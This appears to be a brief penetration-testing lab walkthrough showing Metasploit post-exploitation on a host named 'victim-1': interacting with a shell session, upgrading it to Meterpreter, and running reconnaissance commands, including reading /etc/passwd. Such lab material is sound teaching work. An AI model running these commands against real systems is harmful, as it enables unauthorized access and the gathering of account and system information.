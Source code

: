 ```bash
sessions
sessions 1

/bin/bash -i
    bash: cannot set terminal process group (1269): Inappropriate ioctl for device
    bash: no job control in this shell
    
jackie@victim-1:~$ pwd
    /home/jackie
    pwd
    
jackie@victim-1:~$ whoami
    whoami
    jackie
    
jackie@victim-1:~$ cat /etc/*issue
    cat /etc/*issue
    Ubuntu 18.04.3 LTS \n \l

jackie@victim-1:~$ uname -r
    uname -r
    5.4.0-152-generic
```

```bash
sessions -u 1
sessions
sessions 2

meterpreter > sysinfo
    Computer     : 192.17.170.3
    OS           : Ubuntu 18.04 (Linux 5.4.0-152-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    
meterpreter > getuid
    Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)
```

```bash
shell
/bin/bash -i
cat /etc/passwd
```

